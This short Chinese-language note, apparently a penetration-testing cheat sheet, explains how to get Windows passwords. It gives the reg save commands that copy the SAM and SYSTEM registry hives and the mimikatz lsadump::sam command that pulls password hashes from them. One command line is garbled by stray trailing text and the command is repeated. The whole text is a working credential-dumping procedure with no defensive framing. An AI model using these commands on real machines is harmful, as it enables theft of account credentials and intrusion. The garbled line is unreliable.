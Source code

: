 
获取明文密码

Windows Server 2003、Windows Server 2008、Windows 7 都能直接获取到明文密码

首先我们需要把当前系统注册表 SAM、SYSTEM 获取到
reg save HKLM\SYSTEM Sys.hiv
reg save HKLM\SAM Sam.hiv
mimikatz "lsadump::sam /sam:Sam.hiv /system:Sys.hiv" exitsaulGoodman


然后把这两个文件拖回本地然后用 mimikatz 抓取密码hash

mimikatz "lsadump::sam /sam:Sam.hiv /system:Sys.hiv" exit
